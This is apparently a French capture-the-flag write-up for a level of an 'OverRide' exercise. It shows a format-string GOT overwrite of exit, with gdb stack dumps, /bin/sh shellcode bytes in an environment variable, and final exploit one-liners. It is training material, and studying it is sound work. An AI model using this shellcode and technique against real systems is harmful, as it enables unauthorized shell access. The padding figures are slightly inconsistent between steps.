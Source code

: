 # Level05

Nous devons réaliser un GOT Override, grace à l'exploit sur `printf`

On va remplacer l'adresse d'exit qui est appelé juste après printf par l'adresse de notre shellcode
que nous placerons dans l'env.

On cherche l'adresse d'exit dans la GOT avec objdump -R
```
./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
On trouve 0x080497e0

Maintenat, on cherche l'offset auquel printf peut override
```
level05@OverRide:~$ python -c 'print "B"*4 + "%08x."*20' | ./level05
bbbb00000064.f7fcfac0.f7ec3add.ffffd66f.ffffd66e.00000000.ffffffff.ffffd6f4.f7fdb000.62626262.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

On trouve donc nos B à la 10ième positions. (On voit que c'est 62 et non 42, vu que notre string est mis en minuscule)
```
level05@OverRide:~$ ./level05
BBBB%10$p
bbbb0x62626262
```

On place notre shellcode dans l'env précédé de 100 NOP:
```
export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x
68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'`
```

On cherche l'adresse d'un NOP slide dans la stack:
```
level05@OverRide:~$ gdb ./level05
Breakpoint 1, 0x08048444 in main ()
(gdb) x/200x $esp
0xffffd69c:     0xf7e45513      0x00000001      0xffffd734      0xffffd73c
0xffffd6ac:     0xf7fd3000      0x00000000      0xffffd71c      0xffffd73c
0xffffd6bc:     0x00000000      0x08048230      0xf7fceff4      0x00000000
0xffffd6cc:     0x00000000      0x00000000      0xd42d9c6d      0xe329787d
0xffffd6dc:     0x00000000      0x00000000      0x00000000      0x00000001
0xffffd6ec:     0x08048390      0x00000000      0xf7ff0a50      0xf7e45429
0xffffd6fc:     0xf7ffcff4      0x00000001      0x08048390      0x00000000
0xffffd70c:     0x080483b1      0x08048444      0x00000001      0xffffd734
0xffffd71c:     0x08048520      0x08048590      0xf7feb620      0xffffd72c
0xffffd72c:     0xf7ffd918      0x00000001      0xffffd853      0x00000000
0xffffd73c:     0xffffd86f      0xffffd8f5      0xffffd909      0xffffd919
0xffffd74c:     0xffffd938      0xffffd94b      0xffffd958      0xffffde79
0xffffd75c:     0xffffde85      0xffffde9c      0xffffdee9      0xffffdef8
0xffffd76c:     0xffffdf10      0xffffdf21      0xffffdf2a      0xffffdf32
0xffffd77c:     0xffffdf4b      0xffffdf5d      0xffffdf6d      0xffffdf9a
0xffffd78c:     0xffffdfba      0x00000000      0x00000020      0xf7fdb430
0xffffd79c:     0x00000021      0xf7fdb000      0x00000010      0x178bfbff
0xffffd7ac:     0x00000006      0x00001000      0x00000011      0x00000064
0xffffd7bc:     0x00000003      0x08048034      0x00000004      0x00000020
0xffffd7cc:     0x00000005      0x00000008      0x00000007      0xf7fdc000
0xffffd7dc:     0x00000008      0x00000000      0x00000009      0x08048390
0xffffd7ec:     0x0000000b      0x000003ed      0x0000000c      0x000003ed
0xffffd7fc:     0x0000000d      0x000003ed      0x0000000e      0x000003ed
0xffffd80c:     0x00000017      0x00000000      0x00000019      0xffffd83b
0xffffd81c:     0x0000001f      0xffffdfdc      0x0000000f      0xffffd84b
0xffffd82c:     0x00000000      0x00000000      0x00000000      0x49000000
0xffffd83c:     0x6e2246ac      0x6ac915c0      0x71b52c2c      0x6918d0fb
0xffffd84c:     0x00363836      0x2f000000      0x656d6f68      0x6573752f
0xffffd85c:     0x6c2f7372      0x6c657665      0x6c2f3530      0x6c657665
0xffffd86c:     0x53003530      0x4c4c4548      0x45444f43      0x9090903d
0xffffd87c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd88c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd89c:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8ac:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8bc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8cc:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8dc:     0x50c03190      0x732f6e68      0x2f2f6868      0xe3896962
0xffffd8ec:     0xd231c931      0x80cd0bb0      0x52455400      0x74783d4d
0xffffd8fc:     0x2d6d7265      0x63363532      0x726f6c6f      0x45485300
0xffffd90c:     0x2f3d4c4c      0x2f6e6962      0x68736162      0x48535300
0xffffd91c:     0x494c435f      0x3d544e45      0x302e3031      0x322e322e
0xffffd92c:     0x30373520      0x34203630      0x00323432      0x5f485353
```

On choisi l'adresse d'un NOP près du shellcode: 0xffffd8d0

Maintenant on va diviser notre adresse en 2 `short` pour pouvoir l'injecter sinon la valeur est trop grande.

```
$ node
> 0xd8d0
55504				; les 2 derniers octets en decimal
> 0xd8d0 - 8		; On enleve 8 pour l'adresse d'exit
55495
> 0xffff
65535				; les 2 premiers octets en decimal
> 0xffff - 0xd8d0	; les 2 premiers octets moins les 2 derniers deja écrits
10031
```

On peut maintenant exploiter le binaire avec la commande suivante:
```
(python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08%55496x%10$hn%10031x%11$hn"'; cat) | ./level05
```

Ou directement comme ca:
```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%" + str(0xd8d0 - 8) + "x%10$hn" +"%" + str(0xffff -
0xd8d0) + "x%11$n")';cat) | ./level05
```
